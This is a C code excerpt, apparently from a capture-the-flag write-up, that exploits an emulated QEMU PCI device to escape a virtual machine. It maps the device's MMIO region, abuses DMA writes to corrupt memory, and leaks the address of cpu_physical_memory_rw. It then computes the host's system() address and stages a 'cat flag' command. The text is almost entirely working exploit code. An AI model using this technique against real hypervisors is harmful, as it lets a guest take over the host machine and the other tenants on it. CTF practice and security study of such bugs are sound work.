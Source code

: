 ```
    u_int64_t target = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    mlock(target, 0x1000);
    printf("[*] visual addr 0x%lx\n", target);
    u_int64_t pt = gva_to_gpa(target);
    printf("[*] physical addr 0x%lx\n", pt);

    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd &lt; 0)
    `{`
        puts("[*]mmio open file error!");
        exit(0);
    `}`
    mmio_addr = mmap(0, 0x100000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);

    //设置目标地址,设置相关的位置
    mmio_write(0x20, pt &gt;&gt; 12);
    // mmio_write(0x10, 0xfff);
    // mmio_write(0x18, 0x3);
    // mmio_write(0x60, 1);
    // for (int i = 0; i &lt; 8; i++)
    // `{`
    //     *(u_int8_t *)(target + i) = 0x22;
    // `}`

    // puts("this is write");
    // mmio_write(0x10, 0x0);//off
    // mmio_write(0x18, 0x8|1);//len
    // mmio_write(0x60, 0);

    // u_int8_t t=mmio_read(0);
    // printf("0x%lx\n",t);

    // getchar();
    puts("this is write");
    mmio_write(0x10, 0);
    mmio_write(0x18, 0xb00);
    strcpy((char *)(target + 0xa10), "cat flag\0");
    *(u_int64_t *)(target + 0x10) = pt;
    *(u_int16_t *)(target + 0x18) = 0x10 | 1;
    *(u_int16_t *)(target + 0x1a) = 0xfe0;
    mmio_write(0x60, 0);
    // getchar();

    // 修改基地址
    mmio_write(0x10, 0xfff);
    mmio_write(0x18, 2);
    *(u_int8_t *)target = 0x00;
    *(u_int8_t *)(target + 1) = 0x20;
    mmio_write(0x60, 0);
    // getchar();

    //读出cpu_physical_memory_rw
    // mmio_write(0x10, 0xff0);
    // mmio_write(0x18, 0x10 | 1);
    mmio_write(0x60, 0);
    printf("base addr 0x%lx\n", *(u_int64_t *)(target));
    printf("cpu_physical_memory_rw 0x%lx\n", *(u_int64_t *)(target + 8));
    // getchar();
    u_int64_t base = *(u_int64_t *)(target);
    u_int64_t cpu = *(u_int64_t *)(target + 8);
    u_int64_t sys = (cpu - 0x5BC5C0) + 0x2A7A80;
    printf("system addr 0x%lx\n", sys);

```